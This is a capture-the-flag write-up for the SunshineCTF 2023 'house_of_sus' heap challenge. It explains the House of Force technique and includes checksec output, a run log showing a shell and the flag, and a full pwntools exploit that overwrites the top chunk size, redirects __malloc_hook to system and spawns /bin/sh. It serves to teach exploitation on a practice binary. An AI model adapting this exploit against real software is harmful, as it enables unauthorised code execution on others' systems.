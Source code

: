 
## Level: Easy

### Challenge
#### TL;DR

create a chunk and overwrite the wilderness with a very large number due to an overflow...

this will overlap the target address and resulting in read-what-where, which we can use it to overwrite malloc_hook with system to pop a shell... 
``` 
checksec ./house_of_sus
[*] '/home/4rsp/Downloads/sunshinectf/house_of_sus'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```
> No PIE, Partial RELRO, debuginfo and not stripped...
> what more can you wish for from a binary 😅
  
![menu](https://github.com/4rsp/writeups/blob/main/Sunshine-CTF-2023/house_of_sus/menu.png)

> amongus... cool menu

Fortunately, we have free leaks on the main menu and option 2 (heap and libc)...

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1)

this will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space..

and this will result in overlapping target address (read-what-where)...

Here is my approach with helpful heap snippets to improve visuality:


![newwilderness](https://github.com/4rsp/writeups/blob/main/Sunshine-CTF-2023/house_of_sus/pic1.png)

> Use the overflow in option 3 to overwrite the wilderness with a very large number.

![overlapsize](https://github.com/4rsp/writeups/blob/main/Sunshine-CTF-2023/house_of_sus/pic2.png)

> Calculate the address of wilderness and the target from the leaks and allocate a chunk with size of target - top_addr - 0x10 # for metadata

![systemoverwrite](https://github.com/4rsp/writeups/blob/main/Sunshine-CTF-2023/house_of_sus/pic3.png)

> Overwrite malloc_hook pointer (the target address) with system

> > ... and finally call malloc with the address of "/bin/sh" in size to pop a shell

```
[+] Starting local process './house_of_sus_patched': pid 27582
HEAP LEAK: 0x2b3c1660
LIBC LEAK:0x7f75fc244390
malloc_hook: 0x7f75fc5ebc30
binsh: 0x7f75fc3b3d88
[*] Switching to interactive mode
sun{4Re_y0U_th3_!mP0st3r_v3rY_su55!}
/bin/sh: 2: 1: not found
$  
```

Calculating the offset for distances was quite painful until I get the hang of it...

You can read more about house of force in ![here](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force) and ![there](https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force)

also check out c0nrad's ![video](https://youtu.be/qA6ajf7qZtQ?t=2277) on this challenge and offical (?) ![write-up](https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py) ...


here is my exploit code:

...enjoy

```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'cat flag'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```

